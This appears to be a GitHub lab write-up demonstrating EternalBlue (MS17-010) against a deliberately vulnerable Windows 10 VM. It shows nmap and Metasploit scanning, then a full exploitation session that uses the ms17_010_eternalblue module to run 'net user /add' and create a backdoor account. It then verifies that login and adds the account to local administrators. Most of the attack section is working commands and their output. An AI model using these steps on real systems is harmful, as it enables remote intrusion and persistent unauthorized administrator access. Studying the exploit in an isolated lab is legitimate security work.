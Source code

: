 # EternalBlue POC

## Setup

Latest Win10 VM from [here](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/):
Password (qwerty/azerty) : Pqsszàrd1/Passw0rd!

*This VM is patched against smb-vuln-ms17-010.*

---

Use a vulnerable Windows 10 Pro 10240 x64 ISO to create the VM.

**VirtualBox Network setup** : 
File>Gestionnaire de réseau hôte>Create a new host-only network
Network>Réseau privé hôte

**Guest** :
Search 'Windows features' and activate SMBv1.
Open file explorer, select network and activate the network discovery.
Use `ipconfig` to get the guest IP.

## Scan

Check for vulnerabilities with `nmap`.

- `-O`: OS discovery,
- `-sV`: determine service/version info on open ports,
- `-sC`: default script scan,

```bash
> nmap -Pn -n -sV --script vuln 192.168.56.102
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-01 11:39 CET
Nmap scan report for 192.168.56.102
Host is up (0.0037s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DESKTOP-GIK88U0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.22 seconds
```

```bash
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set rhosts
set rhosts  
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.56.102:445    - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-CCM) (signatures:optional) (uptime:13m 20s) (guid:{82aa542f-6812-4228-9f14-30fbf59f0ab1}) (authentication domain:WIN-DO0J5EDLGLU)
[+] 192.168.56.102:445    -   Host is running Windows 10 Pro (build:10240) (name:WIN-DO0J5EDLGLU) (workgroup:WORKGROUP)
[*] 192.168.56.102:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Exploitation

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue                  
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SMBPass password
SMBPass => password
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SMBUser Test
SMBUser => Test
# no shell with windows/x64/meterpreter/reverse_tcp, create a new SMB user instead
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/exec
payload => windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net user /add NewAdmin root
cmd => net user /add NewAdmin root

msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] 192.168.56.102:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.56.102:445    - Host is likely VULNERABLE to MS17-010! - Windows 10 Pro 10240 x64 (64-bit)
[*] 192.168.56.102:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.56.102:445 - The target is vulnerable.
[*] 192.168.56.102:445 - shellcode size: 1283
[*] 192.168.56.102:445 - numGroomConn: 12
[*] 192.168.56.102:445 - Target OS: Windows 10 Pro 10240
[+] 192.168.56.102:445 - got good NT Trans response
[+] 192.168.56.102:445 - got good NT Trans response
[+] 192.168.56.102:445 - SMB1 session setup allocate nonpaged pool success
[+] 192.168.56.102:445 - SMB1 session setup allocate nonpaged pool success
[+] 192.168.56.102:445 - good response status for nx: INVALID_PARAMETER
[+] 192.168.56.102:445 - good response status for nx: INVALID_PARAMETER
[*] Exploit completed, but no session was created.
# Check that the new SMB user was created
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser NewAdmin
SMBUser => NewAdmin
msf6 auxiliary(scanner/smb/smb_login) > set SMBPass root
SMBPass => root
msf6 auxiliary(scanner/smb/smb_login) > run
[*] 192.168.56.102:445    - 192.168.56.102:445 - Starting SMB login bruteforce
[+] 192.168.56.102:445    - 192.168.56.102:445 - Success: '.\NewAdmin:root'
[*] 192.168.56.102:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
# Escalate privilege on our new user
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net localgroup /add administrators NewAdmin 
cmd => net localgroup /add administrators NewAdmin
```

- [Windows 10 exploit informations](https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/eternalblue_exploit10.py)
- [Adjust the remote UAC](https://github.com/SecureAuthCorp/impacket/issues/481#issuecomment-411884539)
- [EternalBlue writeup](https://redteamzone.com/EternalBlue/)
- [SMB remote connection](https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/)
- [Manual exploitation](https://root4loot.com/post/eternalblue_manual_exploit/)